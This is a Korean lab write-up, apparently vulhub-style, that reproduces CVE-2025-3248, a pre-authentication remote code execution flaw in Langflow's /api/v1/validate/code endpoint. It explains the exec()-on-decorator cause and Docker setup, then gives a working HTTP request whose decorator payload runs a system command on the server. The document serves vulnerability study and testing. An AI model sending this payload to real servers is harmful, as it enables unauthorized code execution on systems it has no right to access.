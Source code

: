 #  Langflow `validate/code` API Pre-Auth Remote Code Execution (CVE-2025-3248)

> 화이트햇 스쿨 3기 5반 - [유진우 (@jin182)](https://github.com/jin182)

Langflow는 에이전트 기반 AI 워크플로우를 구축할 수 있는 인기 있는 오픈소스 도구로, 사용자는 웹 기반의 Python 인터페이스를 통해 시각적으로 AI 파이프라인을 구성할 수 있습니다.

버전 1.3.0 미만의 Langflow에는 심각한 인증 우회 원격 코드 실행(RCE) 취약점인 CVE-2025-3248이 존재합니다.
취약한 엔드포인트 /api/v1/validate/code는 사용자가 제출한 Python 코드를 ast 모듈로 파싱하고, 함수 정의를 exec()를 이용해 실행함으로써 유효성을 검사합니다.
하지만 Python에서는 데코레이터나 기본 인자 값도 함수 정의 시점에 실행되기 때문에, 이를 악용해 임의의 코드 실행이 가능합니다.

공격자는 악성 데코레이터 또는 기본 인자 표현식을 포함한 특수 제작된 함수 정의를 이 API에 전송함으로써, 서버 사용자 권한으로 코드를 실행할 수 있습니다.

참고자료:
- <https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/>
- <https://github.com/langflow-ai/langflow/releases/tag/1.3.0>
- <https://github.com/langflow-ai/langflow/pull/6911>

환경 구성
아래 명령어를 실행하면 Langflow 1.2.0 서버가 Docker로 실행됩니다:

```
docker compose up -d
```

서버가 실행되면, 웹 인터페이스는 http://your-ip:7860에서 접근할 수 있으며
기본 로그인 정보는 administrator:vulhub입니다.

취약점 재현
다음은 이 취약점을 재현하는 방법입니다.
/api/v1/validate/code 엔드포인트에 악성 Python 함수 정의를 포함한 POST 요청을 전송하면 됩니다.
아래 예시는 데코레이터를 통해 서버에서 id 명령을 실행합니다:

```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}
```